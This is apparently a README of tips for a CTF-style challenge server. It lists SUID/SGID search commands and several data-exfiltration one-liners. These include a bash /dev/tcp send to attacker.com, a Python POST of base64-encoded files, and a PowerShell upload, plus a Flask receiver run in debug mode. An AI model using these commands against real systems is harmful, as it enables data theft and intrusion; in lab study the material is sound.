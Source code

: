 # Tips

The servers generally don't have many useful binaries on them, which actually makes it easy to find stuff.

## Interesting files
* Python3 (limited libraries)
* Perl (limited libraries)
* find / -perm /4000
* find / -perm /2000
* find / -perm /6000
* /entrypoint.sh
* /usr/bin/runtoanswer

## File Transfer

File transfer can be carried out with [bash](https://gtfobins.github.io/gtfobins/bash/#file-upload) (most reliable thus far):

```bash
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
```

File transfer can be carried out with [Python](https://gtfobins.github.io/gtfobins/python/#file-upload). I generally base64 things first to make it easier. This adds a name parameter:

```bash
export URL="http://[YOUR_SERVER]/"
export LFILE=/tmp/test.txt

base64 [target_file] > $LFILE
python3 -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read(), "name":e["LFILE"]).encode()))'
```

Then on the receiving end, [URL Decode and Base64 decode](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true,false)). Depending on how you receive the data (e.g. `netcat`), you might need to cut off the HTTP headers and parameters.

```python
import os
from flask import Flask, flash, request, redirect, url_for, make_response
from werkzeug.utils import secure_filename
from hashlib import md5
from time import time

UPLOAD_FOLDER = './'

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

def inc_counter():
    counter = counter + 1

@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        data = request.form.get('d')
        name = request.form.get('name')

        if data is None:
            return make_response("No data found in parameter d. Run curl --data \"d=[DATA]\" [url] to send data", 400)

        if name is None:
            name = "{}_{}.out".format(md5(data.encode()).hexdigest(), str(int(time())))

        name = os.path.basename(name)

        print("Saving file: " + name)

        with open(name, "wb") as f:
            f.write(data.encode())

        return "name: {n} saved".format(n=name, d=data)

    return '''
    <!doctype html>
    <title>Upload new File</title>
    <h1>Upload new File</h1>

POST a parameter 'd' with file info
    </form>
    '''

if __name__ == "__main__":
    import sys

    host = '0.0.0.0'
    port = 80

    if len(sys.argv) > 1:
        host = sys.argv[1]

    if len(sys.argv) > 2:
        port = sys.argv[2]

    app.run(debug=True, host=host, port=port)

```

Will do the job, minus base64

On Powershell hosts, this is an easy way to get files off:

```powershell
$filepath = "file/to/send.txt"
Invoke-WebRequest -uri $uri -Method POST -Infile $filepath -Credential $usercreds
```

I cheated and listened with nc to get it off, but you have options.
